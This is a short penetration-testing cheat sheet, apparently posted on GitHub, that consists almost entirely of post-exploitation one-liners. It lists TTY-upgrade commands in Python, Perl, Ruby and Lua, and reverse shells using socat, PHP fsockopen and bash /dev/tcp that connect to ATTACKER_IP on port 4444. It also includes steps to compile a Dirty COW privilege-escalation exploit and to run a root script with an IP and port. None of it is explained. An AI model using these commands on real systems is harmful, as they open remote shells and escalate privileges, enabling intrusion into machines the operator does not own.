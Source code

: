 what are you doing here bro?? stop watching me!! nothing interesting here!

python -c 'import pty; pty.spawn("/bin/bash")'

python3 -c 'import pty; pty.spawn("/bin/bash")'

/bin/bash -i

perl -e 'exec "/bin/bash";'

ruby -e 'exec "/bin/bash"'

lua -e 'os.execute("/bin/bash")'

socat file:`tty`,raw,echo=0 tcp-listen:1337

socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:ATTACKER_IP:4444

echo 'sh -i' > /tmp/shell.sh
java -cp /tmp -Djava.security.manager=AllowAllSecurityManager -Djava.security.policy=/tmp/policy.policy Shell

php -r '$sock=fsockopen("ATTACKER_IP",4444);exec("/bin/bash -i <&3 >&3 2>&3");'

script /dev/null -c "/bin/bash"

script /dev/null

export TERM=xterm

/bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'

stty raw -echo
fg

gcc -pthread dirty.c -o dirty -lcrypt

perl root.pl [ip] [port]

